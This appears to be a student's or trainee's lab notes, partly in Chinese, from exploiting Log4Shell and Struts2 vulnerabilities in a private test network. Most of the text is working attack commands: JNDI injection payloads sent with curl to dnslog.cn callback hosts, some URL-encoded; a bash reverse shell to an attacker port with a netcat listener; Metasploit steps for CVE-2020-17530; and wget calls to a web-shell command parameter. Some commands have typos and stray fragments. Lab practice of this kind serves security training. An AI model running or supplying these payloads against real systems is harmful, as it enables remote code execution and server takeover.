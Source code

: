 curl -X POST http://192.168.17.128:56816/hello -d 'payload="${jndi:ldap://pnp886.dnslog.cn/exp}"'

192.168.17.128:56816 gmkf2k.dnslog.cn


192.168.17.128:25273


curl -X POST http://192.168.17.128:25273/hello -d 'payload="${jndi:ldap://usv85r.dnslog.cn/exp}"'

payload=${jndi:ldap://9eky7n.dnslog.cn/huhu}

payload=${jndi:ldap://fwvp4o.dnslog.cn}

%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f
%75%63%33%37%7a%69
%2e%64%6e%73%6c%6f%67%2e%63%6e%2f%71%71%71%7d

git glone https://github.com/fullhunt/log4j-scan
cd log4j-scan
ls -l
vim log
python3 weblogic-2019-2725.py
pip3 install -r requirements.txt
python3 log4j-sacn.py -u http://192.168.17.128:60918/hello --run-all-tests
vim log4j-scan.py
sed -i.bak 's/password"/password", "payload"/' lo4j-scan.py
#查找password字段添加payload

python3 log4j-scan.py --request-type post -u http://192.168.17.128:60918/hello

${jndi:rmi://192.168.17.128:1099/nqnwdp}

%24%7b%6a%6e%64%69%3a%72%6d%69%3a%2f%2f%31%39%32%2e%31%36%38%2r%31%37%2e%31%32%38%3a%31%30%39%39%2f%6e%71%6e%77%64%70%7b


http://192.168.17.128:60918/  


bash -i >& /dev/tcp/192.168.17.128/7777 0>&1

http://192.168.17.128:60918/solr/admin/cores?action=${jndi:ldap://vuly1u.dnslog.cn}


msfconsole
db_status
workspace -l
db_nmap -p 19064 192.168.17.130 -n -A
search cve-2020-17530
 use exploit/multi/http/struts2_multi_eval_ognl

 sessions -l

 set RHOSTS 192.168.17.130
 set rport 19064
 set LHOST 192.168.17.129
 exploit -j
  sessions -l



wget http://192.172.84.5 -O /tmp/result && cat /tmp/result

wget "http://192.172.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result

wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result


#### 捕获的流量数据

```
docker inspect -f '{{.State.Pid}}' 5d82a6e5e2da

nsenter -t 344158 -n

tcpdump -i eth0 -w captured_traffic.pcap
```

![capture](img/capture.png)

打开`captured_traffic.pcap`文件可以查看到所有访问到容器的数据流量。




#### 验证漏洞可利用性

构造`Poc`手动测试

访问网站 http://dnslog.cn/ 手动获取专属随机子域名``。

`payload=${jndi:ldap://k5o9u7.dnslog.cn/exp}`

curl -X POST http://192.168.17.130:57863/hello -d payload='"${jndi:ldap://nzj62f.dnslog.cn/exp}"'



#### 漏洞利用

在攻击者主机`attacker`上下载工具，具体工具目录在文件中的`tools`目录下。

```
https://github.com/bkfish/Apache-Log4j-Learning.git
```

先在`dnslog`生成一个网址

攻击者主机`attacker`启动`7777`端口

```
nc -l -p 7777
```
______________________

192.168.17.128:9646/hello?payload=12345

```
curl -X POST http://192.168.17.128:18066 -d payload='"${jndi:ldap://ijdz9i.dnslog.cn/exp}"'
```

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C “命令” -A “ip（攻击机）”
```
